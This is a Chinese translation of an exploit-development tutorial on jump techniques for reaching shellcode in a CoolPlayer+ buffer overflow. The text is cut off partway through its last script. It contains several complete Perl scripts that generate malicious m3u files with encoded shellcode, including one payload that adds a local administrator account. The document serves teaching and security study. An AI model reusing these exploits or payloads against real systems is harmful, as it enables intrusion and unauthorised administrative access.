> Author:[Mike Czumak](https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/)
> 
> 翻译：[moonAgirl](https://github.com/moonAgirl)
## 概观

在第2和第3部分中，我们构建并改进了ASX To MP3转换器的一个漏洞利用。尽管它存在缺陷，但就漏洞而言，它非常简单直接 - 直接利用指向我们shellcode的寄存器从而直接跳转到EIP覆盖。事情并不总是那么容易。通常你必须做更多的工作来让应用程序执行到你的shellcode。在本系列的这一部分中，我们将研究如何在漏洞利用中使用跳转代码。具体来说，我们将看看如何操作寄存器和栈，并使用条件/无条件跳转来构造自定义跳转代码，以便成功实现和执行shellcode。

## 跳转到Shellcode

在我们的第一个例子中，我们很幸运，因为我们有一个寄存器（EBX）直接指向我们shellcode的一个不间断部分，这意味着我们只需要一个调用/ jmp指令来执行它。如果一个寄存器只指向我们的缓冲区中shellcode的一小部分，会发生什么？或者，如果指向点接近，但不完全在我们的缓冲区？或者，如果没有寄存器指向我们的shellcode，但是我们在堆栈上看到了一个地址。在这些情况下，除了迄今为止我们使用的标准调用/ jmp指令外，我们还有几个选项。当涉及到跳转代码时，我喜欢在以下方面考虑可用的选项：
    
    1.操作寄存器
    通过添加/减去寄存器并跳转到修改后的地址（add / sub [reg] + jmp）
    通过查找跳转到寄存器偏移量的指令（jmp reg + offset）
    
    2.操作堆栈
    通过将我们选择的地址推入堆栈并发出返回（push + ret）
    通过从堆栈中弹出一系列地址并发出返回（pop + ret或popad + ret）
    
    3.使用无条件和有条件跳转跳转到shellcode

我们仔细看看...

## 操作寄存器

### 1. add [reg] + jmp

当你运气不佳，虽然寄存器直接指向缓冲区的一部分，它也可能不是允许立即执行shellcode的位置。但是，您可能会增加/减少寄存器中的地址，然后强制应用程序跳转到该地址。

为了说明这个技巧，我将介绍另一个基于m3u的漏洞攻击，这次是CoolPlayer + v2.19.4（本文写作时的最新版本）。您可以从Exploit-DB下载此应用以及已发布的漏洞利用版本：http :  //www.exploit-db.com/exploits/29613/。

将应用程序安装在C：\中，以便您可以跟随本教程的其余部分。

首先，漏洞利用实际上取决于生成的m3u文件的位置，就像我们之前的ASX To MP3播放器示例一样。

其次，为了使漏洞工作，CoolPlayer + 可执行文件必须从安装它的目录运行。这意味着如果您想调试此漏洞（我们将会），您必须先启动Immunity Debugger，再双击位于C：\ CoolPlayer + Portable \中的CoolPlayer.exe），然后用Immunity附加CoolPlayer进程。在初始运行之后，您可以简单地使用Ctrl + F2在调试器中重新启动应用程序。一旦你安装了应用程序，创建一个只包含Metasploit模式的m3u文件。您可以使用以下任一选项：

    Kali：/usr/share/metasploit-framework/tools/pattern_create.rb 10000> msfpattern.m3u
    
    Mona：！mona pc 10000（将结果输出复制到m3u文件中）。

我们将改进已发布的漏洞利用，因此我们从头开始。首先启动CoolPlayer并将Immunity Debugger附加到正在运行的进程。

接下来，将包含Metasploit模式的m3u文件放置在C：\中，并使用CoolPlayer打开它，此时应用程序应该会崩溃，您应该在Immunity中看到与以下内容类似的内容：



注意EDX和EBX如何指向Metasploit模式的开始。ESP也指向模式的一部分，但不是开始。我们用mona来确定偏移量：

Mona告诉我们，EIP覆盖发生在偏移量260处（请记住，从第2部分可以看出，这是我定制的mona版本，因此您不会看到列出的其他偏移量）。它还证实EBX和EDX都指向我们的Metasploit模式缓冲区的开始，但EBX包含更长，不间断的部分（10,000字节与512字节）。ESP指向缓冲区的相当小的一部分。实际上，如果您在转储窗口中查看ESP，则可以确切地看到它在248个字节中被中断的位置。

根据这些信息，我们希望使用EBX作为我们的目标寄存器。让我们开始通过验证对EIP的成功控制来构建我们的漏洞。

将生成的m3u文件放置在C：\中，在Immunity（Ctrl + F2）中重新启动CoolPlayer +并打开m3u文件



现在我们已经验证了对EIP的控制，我们可以查找jmp/call EBX指令，以便我们可以重定向到我们的shellcode。再次，我们可以使用mona来做到这一点。

    !mona find -type instr -s "call ebx"

如果您引用由mona创建的生成的find.txt文件，您将看到只有一个应用程序模块具有可行的指令。不幸的是，所有关联的地址都包含空字节。重复搜索“jmp ebx”会得到相同的结果，因此我们不得不使用OS模块。我将从kernel32.dll中选择一个地址：0x7c810395。我们现在有我们的“call ebx”地址，但EBX指向我们缓冲区的开始，而不是我们的shellcode。

请记住，由于这是一个直接的EIP覆盖，我们的漏洞缓冲区将被构建为类似于以下内容：

    JUNK（抵消EIP）+ EIP + NOPS + SHELLCODE + FILL。

这意味着，如果我们保持原样，“call ebx”将跳回到我们缓冲区的开始处，变为$ junk而不是直接传给我们的shellcode。对于这种寄存器指向缓冲区开始的场景，理想的解决方案是在EIP覆盖之前简单地将SHELLCODE部分移动到开始位置。这里的问题是我们抵消EIP只有260个字符。当然，我们使用的calc.exe shellcode只有不到260个字符，但如果你想要做的不仅仅是打开计算器，会发生什么？

我们可以使用我们的“CALL EBX”指令跳转到缓冲区的开头，然后使用另一个自定义跳转代码序列来跳过我们的EIP覆盖并进入我们的NOPS和shellcode，而不是将自己限制在shellcode的一个小空间中。这个自定义跳转代码实际上会通过将所需数量的字节添加到其值来操作EBX寄存器，然后直接跳转到该更新的地址。

让我们用CALL EBX指令更新我们的exploit脚本，然后在缓冲区的一开始放置一些中断，以确认我们可以成功地达到我们的自定义跳转代码。

将m3u文件放在C：\并在CoolPlayer中打开：

我们已成功重定向到缓冲区的开始处。现在我们需要用一些跳转代码启动缓冲区。我们的跳转代码将执行以下操作：

将X添加到EBX，然后跳转到调整后的EBX，其中X =我们要跳转的字节数。我们应该添加多少X？

我们需要考虑260字节的偏移量和4字节的EIP。我们也想用NOPS作为目标，最好我们的跳转代码将会落在这个NOP底座的某个地方。由于在我们的EIP覆盖之后我们有足够的空间用于shellcode，因此让它以50 NOPS开头。考虑到用于覆盖EIP的四个字节，我们的NOP底座将占用我们缓冲区的字节265到315。因此，300的自定义跳转X可以跳到放在这个NOP内，并很好地流向后面的shellcode。所以，这个自定义跳转代码是什么样的？

为此，我们可以转向另一个方便的Metasploit工具，称为metasm。在kali，你可以得到它如下：

    /usr/share/metasploit-framework/tools/metasm_shell.rb

这会产生一个metasm shell，您可以在其中输入汇编指令，它将返回shellcode的相关操作码。由于我们想要添加300到EBX，让我们在metasm中输入相应的Assembly命令并查看结果：

    metasm &gt; add ebx, 300
    "\x81\xc3\x2c\x01\x00\x00"

结果操作码的问题是它包含NULL字节。为了避免这种情况，我们尝试一个更小的100：

    metasm &gt; add ebx, 100
    "\x83\xc3\x64"

完美，没有空字节。为了使EBX增加300，我们只需要重复这个指令3次。在我们将EBX增加300之后，我们需要跳到它。使用metasm，获取jmp EBX的操作码如下：

     jmp ebx
    "\xff\xe3"

我们的跳转代码如下所示：
    
    my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx
    $jmp = $jmp . "\xff\xe3"; # jmp ebx

让我们更新我们的漏洞利用脚本，以验证自定义跳转代码能够成功地将程序执行重定向到我们的shellcode。

参考上面的截图，你可以看到我已经添加了跳转代码。我还修改了$ junk，以便它能够解释$ jmp的长度，并最终得到EIP的正确偏移量（260）。我使用中断来代替实际的NOP，这样我们就可以准确地看到我们的自定义跳转代码在哪里。如果一切如预期的那样，我们应该在我们的INT指令内跳过超过我们跳转代码的300个字节。让我们来看看…

我们确切地落在了我们预期的地方。现在我们可以让NOP缓冲区变得更小，并且更接近EIP，但由于我们有空间可以玩，所以没有理由如此精确。让我们再次更新我们的漏洞利用脚本，用实际的NOP替换INT并插入一些shell代码（calc.exe）。

    #!/usr/bin/perl
     
    my $buffsize = 10000; # set consistent buffer size
     
    my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx which will jump beyond eip overwrite and into nops/shellcode
    $jmp = $jmp . "\xff\xe3"; # jmp ebx
    my $junk = "\x41" x (260 - length($jmp)); # fill remainder of start of buffer to eip overwrite at offset 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    # no usable application module found
    my $nops = "\xcc" x 50;
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $jmp.$junk.$eip.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

将产生的m3u文件放在C：\中，然后尝试...

成功！！然而，这个漏洞利用仍然有限，因为它只有在从C：\打开m3u文件时才有效。这里有一个小小的练习 - 看看你是否可以通过使它在多个保存位置（桌面，我的音乐等）工作来改善它，就像我们为ASX To MP3利用做的一样。下面列出了一个可能的解决方案

[CoolPlayer + Portable v2.19.4 BOF利用 ](https://www.securitysift.com/download/coolplayer_exploit_demo.pl)

### 2. sub [reg] + jmp

你可能会面临一种情况，你宁愿减少它的价值，而不是增加注册价值。

例如，在发生崩溃时，EBX仍然指向我们的缓冲区的开始处，但仅提供<100字节的不间断空间 - 没有足够的空间来托管shellcode，但有足够的空间用于某些基本跳转代码。这意味着我们可以使用EBX重定向到我们缓冲区的开始处，并执行一些针对另一个寄存器的跳转代码 - 在本例中为ESP。ESP指向我们缓冲区的一部分（从缓冲区开始总共约280字节）。问题是，在崩溃和EIP覆盖时，ESP指向缓冲区的中间而不是开始，并且没有调整ESP，我们没有足够的空间来托管我们的shellcode。为了解决这个问题，我们可以重新排列我们的缓冲区，以便将shellcode放在开始位置，以适当的值递减ESP并跳转到ESP以执行shellcode。让我们重新访问我们的CoolPlayer +漏洞并进行必要的调整。下面是崩溃时的堆栈（使用msf模式），因此您可以可视化查看我们为新缓冲区使用的空间。



我们需要将ESP减少约240个字节。再一次，使用metasm来获得相应的操作码：

    metasm &gt; sub esp, 100
    "\x83\xec\x64"
    metasm &gt; sub esp, 40
    "\x83\xec\x28"
    metasm &gt; jmp esp
    "\xff\xe4"

这是更新的Perl脚本：



请注意以下更改：

    跳转代码现在将ESP减少240
    Shellcode移动到缓冲区的开头（跳转代码之后）
    不再需要缓冲区的垃圾部分（NOP填充任何剩余空间以抵消260）

您可以在执行时立即看到堆栈（为了演示目的，调用EBX INT指令来替换EBX）。

这个空间足以让我们的calc shellcode很好地执行。

### 3. jmp [reg + offset]

除了通过自定义跳转代码直接递增寄存器，您可以通过查找跳转到所需寄存器的现有指令加上其值的偏移量，让应用程序为您完成工作。我将以我们的CoolPlayer攻击为例，简单演示这种技术。比方说，EDX是唯一一个接近指向我们的缓冲区的寄存器，但不幸的是它指向一个大约距shellcode 50个字符之前的位置（这里不是这种情况，但我们将假装这个例子）。为了让我们使用EDX，我们需要增加至少50个字节来达到我们注入的代码。我们可以使用jmp [edx + X]指令（其中X代表大于50的数字）来完成此操作。例如，让我们搜索一个jmp [edx + 64] 指令。



以下是OS模块的一些结果的屏幕截图。

然后，您可以使用这些地址之一作为新的EIP覆盖。当然，你不限于64字节的增量 - 你可能需要更多或更少。您只受可用指令的限制，您可以在可用的DLL中找到这些指令。不幸的是，在这种情况下增加EDX会导致访问冲突，所以我找不到这个特定漏洞的可用地址（尽管我只尝试过一对）。无论如何，你应该牢记这一点，作为在未来的漏洞攻击中跳转到shellcode的可能方法。

## 操作栈

### 1.push [reg] + ret

操作堆栈的第一种方法是最容易理解的，因为它与发出跳转或调用指令的概念相同。让我们重新审视我们利用CALL EBX进行EIP覆盖的漏洞利用的原始版本，但让我们假设我们找不到任何可用的JMP或CALL EBX指令。或者，我们可以搜索PUSH EBX + RET指令集。这将有效地将EBX推到栈顶，然后立即跳转到该地址。这次您将搜索“所有模块中的所有序列”以查找可用的推式ebx + ret指令。





这会返回一些可用的结果，包括我们将用于此示例的shell32.dll中的一个。

如果你想验证这个地址实际上指向了一个push ebx + ret指令，只需双击它，你就会被带到Assembly指令窗口中的那个地址。

您必须从原始漏洞利用脚本更新的唯一东西是$ eip的值。

在CoolPlayer +中打开更新的m3u文件...

### 2.pop + ret

有时你没有足够的幸运来拥有一个直接指向漏洞利用缓冲区任何部分的寄存器，但是如果出现下列情况，你可能会操纵堆栈将执行流重定向到你想要的位置：

    1.靠近堆栈顶部的地址指向您的缓冲区 
    2.ESP + N指向缓冲区（其中N是通过当前ESP的字节数（4,8,12等））。

让我们再次使用CoolPlayer +作为例子。为了模拟这种情况，我创建了以下漏洞利用脚本：



当您在CoolPlayer +（从C：\的根目录）中打开生成的m3u文件时，您应该在Immunity中看到以下内容：



我所做的是用字母'J'模拟垃圾邮件字符，以说明我们的寄存器都没有指向任何立即有用的东西。看看ESP和当前的堆栈。您可以看到堆栈中的前三个条目包含垃圾，但紧接着是指向我们的缓冲区（7C86467B）的感兴趣的地址- 它实际上是JMP ESP我策略性地放置在这个位置以模拟我们期望的回报价值的指令。请记住，这里有两种可能的情况：

    1）地址已经存在于堆栈中，并且您需要将流重定向到它; 
    
    2）ESP + X指向您的缓冲区，

在这种情况下，您可以策略性地在您的地址缓冲区，所以当ESP + X被调用时，它会重定向到你选择的地址。如果我们可以指示程序发出pop pop pop，它会从堆栈中弹出前三个地址并执行下一个地址中的指令，将流程重定向到当前直接指向我们的NOPs / shellcode的ESP 。您可以使用Immunity来查找此弹出流行弹出式ret指令。为此，请重新启动CoolPlayer +（Ctrl + F2），按F9运行程序

在结果文本框中，您需要输入想要查找的pop pop pop指令序列。为了做到这一点，你需要知道使用哪些寄存器。当你只是在寻找一个单一的pop时，很容易（pop eax ret或pop ebx ret等），但是找到一系列可用的三个流行歌曲指令可能会带来一些猜测。某些序列比其他序列更倾向于使用，比如pop ebi，pop esi，pop ebx，但它们都依赖于加载的模块

一部分结果如下：



我选择了第一个用作EIP覆盖的ntdll地址（0x7C924961）。如果双击该地址，则可以验证它是否确实指向我们所需的弹出式弹出式弹出式视频序列。

让我们更新脚本，用这个地址替换我们当前的BBBB的EIP覆盖，然后重新运行漏洞来验证我们到达我们的shellcode占位符。

nice。正如你所看到的，我们已经成功地使用了pop pop pop ret序列来访问我们的shellcode。现在我们只需要用一些实际的shellcode替换INT指令并确保它执行。因为我在这个例子中使用了ESP，所以我们限制了shellcode的空间量，所以我们不使用迄今为止使用的calc.exe shellcode，而是使用稍微小一点的代码：  http： //www.exploit-db.com/exploits/15202/。这个shellcode不是启动计算器，而是添加了一个管理员用户。我修改了原始的shellcode，分别将用户名和密码更改为r00t和pwnd。这是这个演示脚本的最终版本：

    #!/usr/bin/perl
    ###########################################################################################
    # Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
    # Date: 12-24-2013
    # Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
    # Vulnerable Software: CoolPlayer+ Portable v2.19.4
    # Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
    # Tested On: Windows XP SP3
    # Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
    # Details: Demo of jumping to shellcode via pop/ret sequence to stack address
    ###########################################################################################
     
    my $buffsize = 10000; # set consistent buffer size
    my $junk = "\x4A" x 260; # simulate unusable address containing junk with 'J'
    my $eip = pack('V',0x7C924961); # EIP overwrite w/ pop edi pop esi pop ebp from ntdll
    my $junk2 = "\x4A" x 12; # simulate unusable address containing junk with 'J'
    my $usable_address = pack('V',0x7C86467B); # jmp esp kernel32.dll
    my $nops = "\x90" x 20;
     
    # XP SP3 add admin user shellcode -- 107 bytes
    # mod'd from original by Anastasios Monachos http://www.exploit-db.com/exploits/15202/
    my $shell = "\xeb\x16\x5b\x31\xc0\x50\x53\xbb\xad\x23" .
    "\x86\x7c\xff\xd3\x31\xc0\x50\xbb\xfa\xca" .
    "\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63" .
    "\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20" .
    "\x6e\x65\x74\x20\x75\x73\x65\x72\x20" .
    "\x72\x30\x30\x74\x20" . # user: r00t
    "\x70\x77\x6e\x64" . # pass: pwnd
    "\x20\x2f\x61\x64\x64\x20\x26\x26\x20\x6e" .
    "\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72" .
    "\x6f\x75\x70\x20\x61\x64\x6d\x69\x6e\x69" .
    "\x73\x74\x72\x61\x74\x6f\x72\x73\x20".
    "\x72\x30\x30\x74" .
    "\x20\x2f\x61\x64\x64\x00";
     
    my $sploit = $jmp.$junk.$eip.$junk2.$usable_address.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

让我们执行生成的m3u文件（从C：\）并验证exploit是否有效。



成功！！选择shellcode时要小心谨慎 - 绝对不要在生产环境中运行不受信任的shellcode！这相当于盲目地从不受信任的来源打开可执行文件。在我们讨论如何构建自定义shellcode之前，我们仍然有一些方法可以参考，我建议使用Metasploit来生成shellcode，或者如果您愿意，可以使用Exploit-DB上的shellcode。

### 3.POPAD

popad指令按照以下顺序将EDI，ESI，EBP，ESP，EDX，ECX和EAX（其中ESP被丢弃）简单地弹出堆栈前8个双字（4字节）并进入8个通用寄存器。您可以像使用弹出式视窗一样使用popad指令。比方说，例如，在应用程序崩溃时，您可以控制ESP + 32.找到弹出式弹出式弹出式弹出式弹出式视频序列不太可能。相反，您可以使用指向popad + ret指令的指针覆盖EIP，该指令将弹出堆栈前32个字节（8个dword）并执行堆栈顶部的下一个地址。为此，我们需要找到指向popad + ret序列的地址。



这会返回多个可能的OS模块地址 - 您可能会发现由于访问冲突，有些地址不会执行。我发现至少有一个从ntdll（0x7C93121B）开始工作。

在下面的脚本中，我用这个地址替换了EIP。仅用于演示目的，我还修改了缓冲区以包含每个寄存器的值，以说明popad期间弹出寄存器的顺序。请注意，我制作了ESP + 32不可执行的INT指令来暂停执行并查看寄存器和堆栈的当前状态。



这里是结果寄存器和堆栈。



如您所见，寄存器从EDI开始自下而上（并放弃ESP）。现在，如果我们替换INT指令ESP $用JMP ESP或致电ESP指令的地址，我们可以继续下面的shellcode的执行。由于我们在ESP中分配的空间有限，我再次选择了一个较小的shellcode示例，这次是一个简单的消息框来证明成功的利用。

    #!/usr/bin/perl
    ###########################################################################################
    # Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
    # Date: 12-24-2013
    # Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
    # Vulnerable Software: CoolPlayer+ Portable v2.19.4
    # Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
    # Tested On: Windows XP SP3
    # Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
    # Details: Demo of jumping to shellcode via pop/ret sequence to stack address
    ###########################################################################################
     
    my $buffsize = 10000; # set consistent buffer size
    my $junk = "\x41" x 260; # offset to EIP
    my $eip = pack('V',0x7C93121B); # EIP overwrite w/ popad ret (ntdll)
    my $regs = "\x42" x 32; # account for registers populated by popad
    my $esp = pack('V',0x7C86467B); # jmp esp kernel32.dll
    my $nops = "\x90" x 20;
     
    # modified messagebox shellcode from Giuseppe D'Amore
    # http://www.exploit-db.com/exploits/28996/
    my $shell = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42" .
    "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03" .
    "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b" .
    "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e" .
    "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c" .
    "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x4f\x46" .
    "\x21\x01\x68\x61\x64\x20\x42\x68\x20\x50\x6f\x70\x89\xe1\xfe" .
    "\x49\x0b\x31\xc0\x51\x50\xff\xd7";
     
    my $sploit = $junk.$eip.$regs.$esp.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

并运行生成的m3u文件...

除了使用EIP覆盖（或其他指令地址），您还可以将popad直接并入您的缓冲区shellcode以用作跳转代码并完成相同的操作。popad指令的操作码是\ x61。在这里，我修改了脚本来做到这一点。

请注意跳转代码（$ jmp），它首先执行popad，然后跳转到esp - 相当于popad + ret。由于这个特定的演示漏洞利用我们的缓冲区覆盖了大部分堆栈，我还必须包含一个变量$ reg，其中包含将由popad写入寄存器的28个字节的数据（4个字节用于ESP）。这个版本基本上和我们在前面例子中调用的popad + ret指令集一样，因此它产生了相同的结果：

### 4.近/短和有条件的跳转

通过在我们的漏洞中引入无条件和有条件的跳转，我们可以跳转到缓冲区的不同部分来到达我们的shellcode。

一个near jump是跳转到位于在当前代码段内的CPU指令。 

short jump是一种类型的近跳转了在范围限于从-128到+ 127（从当前EIP）的。

要执行无条件短跳转，只需使用操作码\ xeb \ xXX，其中XX是要跳转的字节数。

正向（向前）短跳转对于00到7F的XX有可能的十六进制值，对于从80到FF的负跳转（反向）短跳转有可能。换句话说，20字节的前向跳转是\ xeb \ x14并且向后跳转20个字节是\ xeb \ xea。

向前跳跃很容易理解：14十六进制= 20十进制。
但是后退跳转 - EA十六进制= 234十进制。

那是对的？对于向后跳跃，你必须做一些简单的数学。下面是我如何得到\ xea ...

首先，采取你想要的后跳时间，并添加2.为什么？因为跳转的字节数始终始于跳转后的字节。由于这是一个向后跳转，因此浪费了2个额外的字节跳回自身。所以如果我们想要向后跳20个字节，我们应该确实跳过22.现在执行以下操作：

    Convert 22 to binary:	0001 0110
    Subtract 1				0001 0101
    Invert					1110 1010 = 0xEA

如果你想读更多关于跳跃和计算负向/反向跳转后面的2的补充数学，看看[这个页面](http://thestarman.narod.ru/asm/2bytejumps.htm)。让我们尝试几个简短的跳转。为此，我们将更新我们的原始代码，用正向短跳转代替add ebx跳转代码。在下面的代码中请注意，我将缓冲区的$垃圾部分更改为所有NOP，并将跳转代码放在$ junk之后。由于EBX指向我们shellcode的开头，所以当我们执行CALL EBX指令（$ eip）时，它会将我们引入NOP中，这会跳到短跳转，跳过EIP并进入我们的NOP / shellcode。

如下图所示：

以下是更新的代码：

    #!/usr/bin/perl
    my $buffsize = 10000; # set consistent buffer size
    my $jmp = "\xeb\x4"; # 4 bytes short jump to hop over EIP and into nops/shellcode
    my $junk = "\x90" x (260 - length($jmp)); # nops to slide into $jmp; offset to eip overwrite at 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    # no usable application module found
    my $nops = "\x90" x 50;
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $junk.$jmp.$eip.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

如果您的缓冲区被应用程序分段，则可以使用多个短跳转跳转到您的shellcode。在这种情况下，我们的缓冲区被碎片化，我们需要使用多个短跳转跳过垃圾字符（由\ xcc表示）。这是它在堆栈上的样子：

你可以看到我插入了两个短跳转。就像在最后一个例子中一样，当EIP重定向流回到缓冲区的开始时，NOP将滑向第一个短跳转。这一次，为了跳过EIP和随后的垃圾字符，短跳转是50个字节。这个跳转应该在下一个短跳转处（在几个NOP之前），然后在下一组垃圾字符和我们的NOP / shellcode之间跳100个字节。代码如下：

    #!/usr/bin/perl
     
    my $buffsize = 10000; # set consistent buffer size
     
    my $jmp1 = "\xeb\x32"; # 50 byte short jump to hop over EIP and garbage and into next short jump
    my $junk = "\x90" x (260 - length($jmp1)); # nops to slide into $jmp; offset to eip overwrite at 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    my $garbage1 = "\xcc" x 45;
    my $jmp2 = "\x90\x90\x90\x90\x90\x90\xeb\x64"; # 100 byte short jump over garbage 2 and into NOPs/shellcode
    my $garbage2 = "\xcc" x 97;
    my $nops = "\x90" x 50;
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
